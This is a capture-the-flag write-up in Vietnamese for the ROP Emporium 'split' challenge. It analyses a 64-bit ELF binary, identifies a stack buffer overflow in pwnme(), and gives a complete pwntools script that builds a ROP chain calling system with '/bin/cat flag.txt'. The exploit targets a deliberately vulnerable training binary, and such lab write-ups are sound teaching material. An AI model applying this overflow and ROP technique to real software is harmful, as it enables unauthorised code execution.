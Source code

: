 # ROP_Emporium - split

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x60 ký tự vào biến `s` nhưng biến `s` chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, thay vào đó là hàm `system` và có sẵn string "/bin/cat flag.txt"
--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** `0x28` vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain khi đã có hàm system và chuỗi "/bin/cat flag.txt":

![string.png](images/string.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./split', checksec=False)

p = process("./split")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
system = elf.sym['system']
strings_cat_flag = elf.sym['usefulString']

payload = flat(
    cyclic(0x28),
    ret,
    pop_rdi_ret,
    strings_cat_flag,
    system
    )
p.sendlineafter(b">",payload)
p.interactive()
```
# Lưu ý:

Chúng ta cần thêm ret vào đầu ROP_chain vì:

![ret.png](images/ret.png)

# 4. Lấy flag

![flag.png](images/flag.png)


